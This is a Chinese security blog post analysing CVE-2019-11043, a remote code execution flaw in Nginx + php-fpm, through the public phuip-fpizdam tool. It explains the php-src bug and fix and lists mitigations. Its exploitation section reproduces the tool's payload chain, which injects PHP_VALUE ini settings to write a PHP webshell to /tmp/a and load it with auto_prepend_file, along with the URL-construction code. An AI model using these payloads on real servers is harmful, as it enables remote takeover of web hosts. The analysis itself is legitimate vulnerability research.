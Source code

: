 ```yaml
---
title: PHP CVE-2019-11043 RCE工具分析
categories:
  - Web安全
tags:
  - Web安全
  - 漏洞分析
toc: true 文章目录
author: BlBana
date: 2019-10-23 22:10:40
description:
comments:
original:
permalink:
---
```


> 下午看见了CVE-2019-11043漏洞的利用工具，简单的把phuip-fpidam工具看了一下，利用CVE-2019-11043控制Nginx fastcgi_param的PHP_VALUE变量对PHP配置改写，再在加载PHP扩展时写入Webshell。

<!-- more -->

# 1. 漏洞描述

PHP官方通告发布，使用Nginx + php-fpm服务器，在默认配置下，存在远程代码执行漏洞。Nginx在fastcgi_split_path_info带有%0a即换行符时，导致PATH_INFO为空，而php-fpm处理PATH_INFO为空，存在缺陷。

# 2. 影响范围

Nginx + php-fpm配置的服务器

# 3. 漏洞原理

具体原理没有分析，需要分析C代码

```nginx
location ~ [^/].php(/|$) {
fastcgi_split_path_info ^(.+?.php)(/.*)$;
fastcgi_param PATH_INFO $fastcgi_path_info;
fastcgi_pass php:9000;
```

`Fastcgi_split_path_info`用于定义一个正则表达式，来获取`$fastcgi_path_info`变量。`^(.+?.php)(/.*)$`正则捕获到两个组，第一个放入`$fastcgi_script_name`变量，第二个放入`$fastcgi_path_info`变量。例如：

```ini
# 传入/show.php/article/0001
$fastcgi_path_info = /article/0001
$fastcgi_script_name = /show.php
```

当攻击者使用换行符后，破坏`fastcgi_split_path_info`中的正则，导致`PATH_INFO`为空。

漏洞具体位置在，**导致可以放置任意的FastCGI变量**：

[https://github.com/php/php-src/blob/master/sapi/fpm/fpm/fpm_main.c#L1142](https://github.com/php/php-src/blob/master/sapi/fpm/fpm/fpm_main.c#L1142)

目前已经修正，可以看看修改前后的对比：

[http://git.php.net/?p=php-src.git;a=commitdiff;h=ab061f95ca966731b1c84cf5b7b20155c0a1c06a](http://git.php.net/?p=php-src.git;a=commitdiff;h=ab061f95ca966731b1c84cf5b7b20155c0a1c06a)

```c
--- a/sapi/fpm/fpm/fpm_main.c
+++ b/sapi/fpm/fpm/fpm_main.c
@@ -1209,8 +1209,8 @@ static void init_request_info(void)
  path_info = script_path_translated + ptlen;
  tflag = (slen != 0 && (!orig_path_info || strcmp(orig_path_info, path_info) != 0));
} else {
- path_info = env_path_info ? env_path_info + pilen - slen : NULL;
- tflag = (orig_path_info != path_info);
+ path_info = (env_path_info && pilen > slen) ? env_path_info + pilen - slen : NULL;
+ tflag = path_info && (orig_path_info != path_info);
}
if (tflag) {
```

**Phuip-fpidam**利用FastCGI变量PHP_VALUE更改PHP配置，具体利用方式可以看第五部分。

> PHP_VALUE变量，当path_info[0]置为0时，FCGI_PUTENV会被调用。攻击者通过构造URL路径和查询字符串，可以使path_info精确指向_fcgi_data_seg结构体的第一个字节，放入零将向后移动到char* pos字段，然后在FCGI_PUTENV使用脚本路径覆盖一些数据（包括其他的一些fast cgi variables），利用此种方式，伪造PHP_VALUE fcgi变量，修改PHP配置来执行代码。

# 4. 漏洞检测

默认配置下，就可能存在远程代码执行漏洞。

```nginx
location ~ [^/].php(/|$) {
fastcgi_split_path_info ^(.+?.php)(/.*)$;
fastcgi_param PATH_INFO $fastcgi_path_info;
fastcgi_pass php:9000;
```

# 5. 漏洞利用

> Phuip-fpidam利用该漏洞控制了Nginx的fastcgi_param中的PHP_VALUE变量，动态的修改PHP配置，造成了命令执行，利用这个命令执行成功写入Webshell。

- main.go

在`Detect`函数中，通过遍历的方式获取`params`结构体中的两个参数，`QueryStringLength`和`PisosLength`。调用`Attack`函数并传入结构体params。

- attack.go

在Attack函数中，循环构造并向目标服务器发送`payload`。

```go
# 原始payload如下

var chain = []string{
	"short_open_tag=1",
	"html_errors=0",
	"include_path=/tmp",
	"auto_prepend_file=a",
	"log_errors=1",
	"error_reporting=2",
	"error_log=/tmp/a",
	"extension_dir=\"<?=`\"",
	"extension=\"$_GET[a]`?>\"",
}
```

发送前进行构造：

```go
func MakePathInfo(phpValue string) (string, error) {
	pi := "/PHP_VALUE\n" + phpValue
	if len(pi) > PosOffset {  # PosOffet=34
		return "", fmt.Errorf("php.ini value is too long: %#v", phpValue)
	}
	return pi + strings.Repeat(";", PosOffset-len(pi)), nil
}

# 构造后如下payload
pi = "/PHP_VALUE\nshort_open_tag=1"+";;;;;;;"
```

发送构造的`payload`：

```go
func SetSettingSingle(requester *Requester, params *AttackParams, setting, queryStringPrefix string) (*http.Response, []byte, error) {
	payload, err := MakePathInfo(setting)
	if err != nil {
		return nil, nil, err
	}
	return requester.RequestWithQueryStringPrefix(payload, params, queryStringPrefix)
}

# payload = "/PHP_VALUE\nshort_open_tag=1"+";;;;;;;"
# params = {qsl: 1790, pisos: 152} 具体数值是这样，没写过Go。。。不知道格式对不对
# queryStringPrefix = "a=/bin/sh+-c+'which+which'&"
```


在`RequestWithQueryStringPrefix`函数中，`payload`被拼接到了URL路径当中，`params.QueryStringLength`用于生成定量的字符`“Q”`与`prefix`进行拼接，`params.PisosLength`放入请求头`D-Pisos`中。

```go
u.Path = u.Path + pathInfo
qslDelta := len(u.EscapedPath()) - len(pathInfo) - len(r.u.EscapedPath())
if qslDelta%2 != 0 {
	panic(fmt.Errorf("got odd qslDelta, that means the URL encoding gone wrong: pathInfo=%#v, qslDelta=%#v", qslDelta))
}
qslPrime := params.QueryStringLength - qslDelta/2 - len(prefix)
if qslPrime < 0 {
	return nil, nil, fmt.Errorf("qsl value too small: qsl=%v, qslDelta=%v, prefix=%#v", params.QueryStringLength, qslDelta, prefix)
}
u.RawQuery = prefix + strings.Repeat("Q", qslPrime)
```

发送payload，原始payload被写入到php.ini文件中，参数a后的命令成功执行`/bin/sh+-c+'which+which'&` ，利用配置extension_dir和extension拼接PHP扩展路径在加载PHP扩展时进行命令执行。**（这块具体还不清楚是如何加载并执行了其中的代码，需要留个坑后面补充，继续分析工具调用。。。）**

成功加载扩展并执行命令后，开始写入Webshell。

```shell
cleanupCommand = ";echo '<?php echo `$_GET[a]`;return;?>'>/tmp/a;which which"
```

在/tmp/a文件中写入Webshell。

- 如何加载Webshell

    ```ini
    "include_path=/tmp"  # 配置include时文件路径
    "auto_prepend_file=a"  # 默认在全部PHP文件前面include("/tmp/a")
    ```

- 成功加载Webshell。

在http://localhost/index.php?a=cmd即可执行命令。

# 6. 漏洞修复

不影响业务情况下，可以选择删除下列配置：

```nginx
fastcgi_split_path_info ^(.+?.php)(/.*)$;
fastcgi_param PATH_INFO $fastcgi_path_info;
```

# 7. 参考链接

- [phuip-fpizdam工具](https://github.com/neex/phuip-fpizdam)
- [Vulhub漏洞环境](https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043)
- [PHP官方公告](https://bugs.php.net/bug.php?id=78599)